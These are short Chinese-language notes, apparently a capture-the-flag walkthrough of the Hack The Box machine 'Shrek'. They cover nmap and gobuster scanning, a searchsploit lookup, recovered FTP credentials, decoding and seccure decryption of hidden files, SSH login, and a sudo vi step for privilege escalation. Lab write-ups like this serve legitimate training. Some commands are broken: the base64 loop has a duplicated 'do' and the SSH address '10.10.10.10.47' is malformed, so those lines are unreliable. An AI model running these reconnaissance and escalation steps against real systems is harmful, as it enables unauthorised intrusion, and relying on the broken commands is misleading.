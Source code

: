 
#Shrek

``` 
nmap -sS -sV -oA nmap/shrek 10.10.10.47
```
vsftpd
``` 
searchsploit vsftpd 
```
> /upload.php
> /uploads -> /secret_area51 -> 音频文件
``` 
gobuster -u http://10.10.10.47 -w /usr/share/wordlists/dirbusters/directory.txt
```

解密音频文件,得到donkey : donk3y1337!  
ftp连接，下载文件， 放到quipquip网站解密  
base64解密
``` 
for i in `ls *.txt`; do echo $i; do base64 -d $i > $i.b64; done
```
打开文件，发现有一段文字前后空格，提取出单独解密
41a547...txt  
ebb514...txt
``` 
pip install seccure
python
> import seccure
seccure.decrypt(ct, b'')
```
得到ssh密码，登录即可
``` 
ssh sec@10.10.10.10.47

sudo -u farquad /usr/bin/vi
```




